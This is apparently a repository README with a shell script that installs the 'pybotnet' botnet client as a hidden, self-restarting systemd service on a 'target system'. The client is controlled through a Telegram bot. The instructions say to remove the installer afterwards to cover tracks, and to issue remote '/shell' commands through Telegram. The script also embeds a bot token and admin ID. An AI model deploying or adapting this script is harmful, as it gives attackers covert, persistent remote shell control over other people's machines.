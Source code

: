 
## add pybotnet to Debian base Linux systemd-service ##

### HELP:
- replace youre telegram_bot_token, admin_id and bot_name with your own
- copy this file to target system
- run this file by `sudo sh ./install_as_service.sh`
- remove install_as_service.sh from target system
- if pybotnet update is available, in telegram bot send `/shell systemctl restart pybotnet` to reinstall pybotnet

#### install_as_service.sh

```
#!/bin/sh

telegram_bot_token=50885227232:AAFdKCluWopE9Mg-5Mj1WURfuu90cyGssBGY
admin_id=49023471166
bot_name=example_name_pybotnet

service_name=pybotnet
runner="/root/.config/.$service_name.sh"

# Create runner 
tee<<EOF > $runner
#!/bin/sh
apt-get update > /dev/null 2>&1 &&
apt-get install python3-pip -y -qq > /dev/null 2>&1 &&
apt-get install python3-dev -y -qq > /dev/null 2>&1 &&
pip3 install "pybotnet>=2<3" -U -qqq &&
python3 -m pybotnet -t $telegram_bot_token -i $admin_id -n $bot_name
EOF

chmod +x $runner

tee<<EOF > /etc/systemd/system/$service_name.service
[Unit]
Description=$service_name
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh $runner
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

chmod 644 /etc/systemd/system/$service_name.service
systemctl daemon-reload
systemctl enable $service_name.service
systemctl restart $service_name.service

```
